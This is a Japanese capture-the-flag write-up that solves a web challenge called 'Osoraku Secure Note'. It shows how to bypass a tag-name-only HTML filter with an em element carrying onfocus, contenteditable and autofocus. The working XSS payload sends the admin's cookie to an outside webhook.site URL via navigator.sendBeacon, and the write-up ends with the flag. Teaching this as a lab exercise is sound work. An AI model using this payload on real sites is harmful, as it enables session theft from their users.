





# [Web] Osoraku Secure Note
> メモ帳を作ってみました。
> 
> ---
> 
> I made a note-taking service.

与えられたURLにアクセスしてみると、以下のようにメモが入力できるフォームが表示されます。



適当に `neko` と書いて投稿ボタンを押してみると、`/note/b2f2c337-e3ea-4a1c-9e05-bfaad5f7ab24` のようにランダムに生成されたUUIDを含むパスに遷移した上で、以下のように先ほど入力したメモが表示されました。

ページの下部に `Report this note` というボタンがありますが、これを押すとadminがそのメモを見に来てくれるようです。



トップページにも書かれているように、`del`, `em`, `strong` の3つの要素であればHTMLタグをメモに含めることができ、例えば `<del>del</del>, <em>em</em>, <strong>strong</strong>` のようなメモであれば以下のように表示されます。



もし `<a href="#">link</a>` のように許可されていないHTMLのタグを利用しようとすれば、`Prohibited HTML tags found!` と表示され弾かれてしまいます。



## ソースコードを読む
与えられたソースコードのうち、`server` ディレクトリはWebサーバの処理が、`worker` ディレクトリはadminがメモを見に来る際の処理が置かれています。まずは後者から見ていきましょう。

`worker/index.js` は以下のようなコードになっています。Cookieに `flag` というキーでフラグを設定した後に、報告されたメモを訪れるという処理になっています。

`httpOnly: false` とJavaScriptからもこのCookieにアクセスできる設定になっていることから、この問題でのゴールは `document.cookie` にアクセスすることであるとわかります。フォームへの入力やリンクのクリックといった処理はなく、ただ見るだけです。

```javascript
const crawl = async (id) => {
  const url = BASE_URL + '/note/' + id;
  console.log(`[+] Crawling started: ${url}`);

  const browser = await puppeteer.launch(browser_option);

  const page = await browser.newPage();
  try {
    await page.setCookie({
      name: 'flag',
      value: FLAG,
      domain: new URL(BASE_URL).hostname,
      httpOnly: false,
      secure: false
    });
    await page.goto(url, {
      waitUntil: 'networkidle0',
      timeout: 3 * 1000,
    });
  } catch (e) {
    console.log('[-]', e);
  } finally {
    await page.close();
  }

  await browser.close();
};
```

Webサーバの方もソースコードを読んでいきましょう。メモの投稿処理を見てみると、以下のように[JSDOM](https://github.com/jsdom/jsdom)というライブラリでHTMLとしてメモをパースした上で、`isSafe` なる関数によって禁止されているHTMLタグが使われていないかチェックされています。

```javascript
app.post('/note', (req, reply) => {
  const { content } = req.body;
  if (typeof content !== 'string' || content.length === 0) {
    return reply.send({ status: 'error', message: 'No content is provided' });
  }

  const fragment = JSDOM.fragment(content);
  if (![...fragment.childNodes].every(isSafe)) {
    return reply.send({ status: 'error', message: 'Prohibited HTML tags found!' });
  }

  const id = uuidv4();
  notes.set(id, {
    timestamp: Date.now(), content
  });

  return reply.send({ status: 'ok', message: id });
});
```

`isSafe` は以下のような処理になっています。DOMツリーを再帰的に辿り、どのノードも名前 (`nodeName`) が `#text` (テキスト), `#document-fragment`, `BR`, `DEL`, `EM`, `STRONG` のいずれかであるかをチェックしています。なんとかしてこのチェックをバイパスできないでしょうか。

```javascript
// this check ensures that the input doesn't have dangerous HTML tags!
function isSafe(node) {
  if (![...node.childNodes].every(isSafe)) {
    return false;
  }

  if (!['#text', '#document-fragment', 'BR', 'DEL', 'EM', 'STRONG'].includes(node.nodeName)){
    return false;
  }

  return true;
}
```

## isSafeをバイパスする
`isSafe` をよく見ると、要素名だけチェックして属性についてはまったくチェックされていないことがわかります。`em` や `strong` のような要素を使いつつ、属性のみでJavaScriptコードの実行に持ち込むことはできないでしょうか。

`` のように[イベントハンドラ属性](https://developer.mozilla.org/ja/docs/Learn/JavaScript/Building_blocks/Events#%E3%82%A4%E3%83%B3%E3%83%A9%E3%82%A4%E3%83%B3%E3%82%A4%E3%83%99%E3%83%B3%E3%83%88%E3%83%8F%E3%83%B3%E3%83%89%E3%83%A9%E3%83%BC_%E2%80%94_%E4%BD%BF%E3%81%A3%E3%81%A1%E3%82%83%E3%81%A0%E3%82%81)を使えば、特定のイベントが発火したときに、属性値として設定したJavaScriptコードを実行させることができます。MDNで[イベントハンドラの一覧](https://developer.mozilla.org/ja/docs/Web/API/GlobalEventHandlers)を眺めていると色々と使えそうなものがあることがわかりますが、`em` のような要素でも発火させられるものとして、その要素にフォーカスが当たった際に発火する `onfocus` に注目します。

ユーザインタラクションなしに `onfocus` 属性で設定したJavaScriptコードを実行させる方法はいくつか考えられますが、今回は [`contenteditable`](https://developer.mozilla.org/ja/docs/Web/HTML/Global_attributes/contenteditable) でその要素を編集可能にし、さらに[`autofocus`](https://developer.mozilla.org/en-US/docs/Web/HTML/Global_attributes/autofocus) で自動的にフォーカスが当たるようにする方法を使ってみましょう。

これらを組み合わせて、`<em onfocus="alert(123)" contenteditable autofocus>test</em>` という内容のメモを投稿します。これで、開いた途端にダイアログが表示されるメモができあがりました。

## フラグを得る
この問題の目的はadminのCookieを盗み取ることでした。`navigator.sendBeacon('(URL)',document.cookie)` や `(new Image).src='(URL)?' + document.cookie` のようなコードで `document.cookie` を自身の管理下にあるWebサーバに送信させましょう。そのためだけにわざわざWebサーバを立てるのも面倒なので、[Webhook.site](https://webhook.site)や[RequestBin](https://requestbin.net/)を使いましょう。

`<em onfocus="navigator.sendBeacon('https://webhook.site/…',document.cookie)" contenteditable autofocus>test</em>` という内容のメモを投稿し、adminに報告します。すると、Webhook.siteに以下のようなHTTPリクエストが飛んできました。これでフラグが得られました。



```
HarekazeCTF{chr1stm4s_4lw4ys_rem1nds_me_0f_4m4g4m1}
```